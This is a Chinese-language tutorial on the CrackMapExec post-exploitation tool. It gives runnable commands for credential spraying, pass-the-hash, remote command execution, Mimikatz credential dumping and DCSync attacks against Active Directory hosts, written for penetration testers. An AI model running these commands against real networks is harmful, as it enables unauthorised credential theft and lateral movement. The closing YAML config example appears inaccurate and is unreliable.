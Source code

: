### CrackMapExec 工具介绍

CrackMapExec（CME）是一款专为渗透测试人员和红队成员设计的多功能后渗透工具，主要用于管理大型Active Directory网络。CME集成了多种攻击技术，能够进行横向移动、凭证测试、执行命令、收集敏感信息等操作。其核心功能基于SMB协议，但也支持其他协议如SSH、WinRM、LDAP等。

### 主要功能

1. **凭证验证**：
   - 测试和验证用户凭证在目标系统上的有效性。
   
2. **横向移动**：
   - 利用有效凭证在网络中进行横向移动，包括远程执行命令、上传和下载文件等。
   
3. **信息收集**：
   - 收集目标系统的信息，如用户列表、共享资源、操作系统版本等。
   
4. **凭证抓取**：
   - 从目标系统中提取密码散列值、明文密码等敏感信息。
   
5. **集成攻击模块**：
   - 集成了多种攻击模块，如Mimikatz、DCSync、Kerberoasting等。

### 安装 CrackMapExec

CrackMapExec 可以在多种操作系统上安装，包括Linux和Windows。以下是一些常见的安装方法：

#### 1. 在 Kali Linux 上安装

Kali Linux 通常预装了 CrackMapExec。如果没有，可以通过以下命令安装：

```bash
sudo apt-get update
sudo apt-get install crackmapexec
```

#### 2. 从源代码安装

你也可以从 GitHub 仓库克隆并安装 CrackMapExec：

```bash
git clone https://github.com/Porchetta-Industries/CrackMapExec
cd CrackMapExec
python3 setup.py install
```

### 使用方法

CrackMapExec 提供了多种功能和选项，可以通过命令行参数进行配置。以下是一些常见的使用场景和命令示例：

#### 1. 测试凭证有效性

验证一组凭证在目标系统上的有效性：

```bash
crackmapexec smb 192.168.1.0/24 -u username -p password
```

使用NTLM哈希进行认证：

```bash
crackmapexec smb 192.168.1.0/24 -u username -H <NTLM-hash>
```

#### 2. 执行远程命令

在目标系统上执行命令：

```bash
crackmapexec smb 192.168.1.0/24 -u username -p password -x 'ipconfig /all'
```

使用PowerShell脚本执行：

```bash
crackmapexec smb 192.168.1.0/24 -u username -p password -X 'powershell.exe -ExecutionPolicy Bypass -File script.ps1'
```

#### 3. 上传和下载文件

上传文件到目标系统：

```bash
crackmapexec smb 192.168.1.0/24 -u username -p password --upload local_file remote_path
```

下载文件从目标系统：

```bash
crackmapexec smb 192.168.1.0/24 -u username -p password --download remote_file local_path
```

#### 4. 收集信息

列出共享资源：

```bash
crackmapexec smb 192.168.1.0/24 -u username -p password --shares
```

获取用户列表：

```bash
crackmapexec smb 192.168.1.0/24 -u username -p password --users
```

#### 5. 执行内置模块

使用Mimikatz模块提取凭证：

```bash
crackmapexec smb 192.168.1.0/24 -u username -p password -M mimikatz
```

执行DCSync攻击：

```bash
crackmapexec smb 192.168.1.0/24 -u username -p password -M dcsync
```

#### 6. 使用配置文件

CrackMapExec支持使用YAML配置文件来简化操作。创建一个配置文件，例如`cme.yml`：

```yaml
credentials:
  username: 'user'
  password: 'pass'
targets:
  - '192.168.1.0/24'
```

使用配置文件运行CrackMapExec：

```bash
crackmapexec smb -y cme.yml
```

### 结论

CrackMapExec 是一个功能强大的后渗透工具，通过其多种功能和模块，能够极大地简化和加速渗透测试和红队演练中的横向移动和凭证测试。熟练掌握CME的使用可以显著提升在复杂网络环境中的渗透能力和效率。